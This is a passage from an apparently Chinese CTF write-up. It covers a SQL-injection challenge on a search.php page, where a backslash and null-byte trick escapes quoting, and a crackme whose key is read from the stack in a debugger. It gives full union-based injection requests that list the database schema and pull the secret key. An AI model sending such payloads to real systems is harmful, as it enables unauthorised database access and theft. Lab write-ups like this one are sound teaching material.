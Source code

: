 但是将通配符变为\0查看输出

![enter image description here](http://drops.javaweb.org/uploads/images/3b19917934cd0054daf0489b678ede8223725e87.jpg)

令sqltongpeif=\ 输出查看，单引号逃逸

![enter image description here](http://drops.javaweb.org/uploads/images/fd4fd57e48d20c9fde59d040469ca4d6e7604382.jpg)

然后执行常规的查库、查表、读取flag。 Order by判断有4个字段， 查到数据库为sql_seclover 请求为

```
search.php?word=l\%00' union select 1,schema_name,3,4 from information_schema.schemata where 1 %23&tongpeifu=\0&sqltongpei=\

```

查表有content、admin（里面无数据，因而后台登录是虚设？）、secret 请求为

```
search.php?word=l\%00' union select 1,table_name,3,4 from information_schema.tables where table_schema=0x73716C5F7365636C6F766572 %23&tongpeifu=\0&sqltongpei=\

```

查字段sid skey 请求为

```
search.php?word=l\%00' union select 1,column_name,3,4 from information_schema.columns where table_name=0x736563726574 %23&tongpeifu=\0&sqltongpei=\

```

获得key{SecloverW@1C0me ^u0} 请求为

```
search.php?word=l\%00' union select 1,skey,3,4 from secret where 1 %23&tongpeifu=\0&sqltongpei=\

```

Key:{SecloverW@1C0me ^u0}

0x02 Crack
----------

* * *

**1.crack1-Crackme1**

Url:http://ctf.sobug.com/crackme/b4dc971ef90cb6ae/index.php

Point:100

Proceess:

拖到ida中，逻辑很简单。 找到关键函数sub_401000，分析。 看了下就是和unk_408030位置的数字进行一系列抑或，而且是简单的抑或。所以这个不用逆算法就行，直接上od。 转到0x401000处，在程序结束的地方下断点，运行程序。成功断下后，直接在栈上可以看到注册码，如图。

![enter image description here](http://drops.javaweb.org/uploads/images/9ebd2d417b02c5b1e7bdb6639d9ba0d8837b3266.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/44d323240f4584ccdd22a25a8b5bd16b49e6af69.jpg)
